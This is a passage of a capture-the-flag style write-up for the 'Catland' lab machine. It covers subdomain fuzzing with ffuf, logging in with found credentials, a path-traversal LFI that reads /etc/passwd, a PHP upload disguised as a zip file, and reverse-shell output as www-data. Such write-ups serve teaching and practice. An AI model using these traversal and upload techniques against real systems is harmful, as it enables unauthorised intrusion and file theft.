         for image in images:
            result = requests.get(url + "/" + image)
            open('Images/' + image, 'wb').write(result.content)

    def main():
        download_images(get_all_images(url))

    if __name__ == '__main__': main()

The images didn't have any hidden information or data in them. Let's add the domain **catland.hmv** to the ***/etc/hosts*** file and try to find subdomains. 

    $ ffuf -r -c -ic -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.catland.hmv' -u 'http://10.0.0.5' -fs 757

    admin                   [Status: 200, Size: 1068, Words: 103, Lines: 24, Duration: 614ms]

There is a subdomain at ***"admin.catland.hmv"***.  
Block http://admin.catland.hmv/redirect.js.

![image](https://user-images.githubusercontent.com/76552238/213241496-bff4774d-9736-42ac-82e8-fc33548a2bba.png)

![image](https://user-images.githubusercontent.com/76552238/213241643-80a93af1-b7d2-40e1-8149-6c8ac46c7759.png)


Login in as `laura:Laura_2008`.

![image](https://user-images.githubusercontent.com/76552238/213248175-26152fa7-b5fb-4b20-bd47-353cdd8e51a1.png)

LFI can be performed on the page parameter.

Passing "***../../../etc/passwd***" as the value of the parameter allows to see the file on the remote machine.  

![image](https://user-images.githubusercontent.com/76552238/213249061-e9f954a1-886c-40cc-a7f5-01790710f323.png)

Going to the Accountancy page, we have a file upload function. 

![image](https://user-images.githubusercontent.com/76552238/213251850-a02e8605-ff5f-49c4-84d6-c79350a5d997.png)

Only ZIP files are excepted, let's see if can exploit this to upload a php file that runs command on the remote server. We can upload the malicious file and access it using the LFI weakness we found.  

We can upload ***PHP*** scripts by adding a "***zip***" extension.

    $ cat exploit.php.zip                                       
    <?php echo 'Hello, World!'; ?>  

![image](https://user-images.githubusercontent.com/76552238/213252743-5e9e9d6e-c537-43e2-91b3-a5c246c040b4.png)

Let's upload a reverse shell script and gain access to the remote machine.

    listening on [any] 4444 ...                                                                     
    connect to [10.0.0.44] from (UNKNOWN) [10.0.0.5] 55124                                          
    Linux catland.hmv 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64 GNU/Linux        
    18:32:44 up  2:18,  0 users,  load average: 0.01, 0.77, 0.68                                   
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                             
    uid=33(www-data) gid=33(www-data) groups=33(www-data)                                           
    /bin/sh: 0: can't access tty; job control turned off                                            
    $ whoami                                                                                        
    www-data 
